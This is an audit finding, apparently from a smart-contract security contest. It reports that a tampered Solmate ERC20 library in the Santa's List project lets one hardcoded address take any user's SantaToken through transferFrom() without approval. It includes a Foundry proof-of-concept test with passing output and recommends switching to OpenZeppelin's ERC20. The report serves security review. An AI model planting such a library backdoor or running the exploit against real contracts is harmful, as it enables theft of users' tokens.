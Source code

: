 ## [H1] Manipulated library allows elves to steal the SantaToken

### Severity

High Risk

### Date Modified

Dec 5th, 2023

### Summary

The original ERC20 Solmate library has been corrupted by a malicious elf with address 0x815F577F1c1bcE213c012f166744937C889DAF17.
Now the `transferFrom()` doesn't ask for approval and instead allows to transfer any santaToken from any account to this address without prior approval.

### Vulnerability Details (PoC)

This is easy to prove with a test, first we add the elf address

```
address elf = 0x815F577F1c1bcE213c012f166744937C889DAF17;
```

```
function test_manipulatedLibrary() public {
        // 1. Add user to the lists
        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

        // 2. User collect the gift and the santaToken
        vm.startPrank(user);
        santasList.collectPresent();
        assertEq(santaToken.balanceOf(user), 1e18);
        vm.stopPrank();

        // 3. elf stole the santaToken!
        vm.prank(elf);
        santaToken.transferFrom(user, elf, 1e18);
        assertEq(santaToken.balanceOf(user), 0);
        assertEq(santaToken.balanceOf(elf), 1e18);
    }
```

```
➜  2023-11-Santas-List git:(main) ✗ forge test --mt test_manipulatedLibrary
[⠢] Compiling...
[⠔] Compiling 1 files with 0.8.22
[⠒] Solc 0.8.22 finished in 1.25s
Compiler run successful!

Running 1 test for test/unit/SantasListTest.t.sol:SantasListTest
[PASS] test_manipulatedLibrary() (gas: 199938)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.35ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
➜  2023-11-Santas-List git:(main) ✗
```

### Impact

The malicious elf is able to steal all the SantaTokens from each account.

### Tools Used

Manual, foundry

### Recommendations

Always check imported libraries. We trust Open Zeppelin or Solmate, but we shouldn't trust the developers. In this case, the easiest way is to simply remove the Solmate import and import the ERC20 Open Zeppelin which has the correct `transferFrom()` with the necessary prior approval of the token owner.
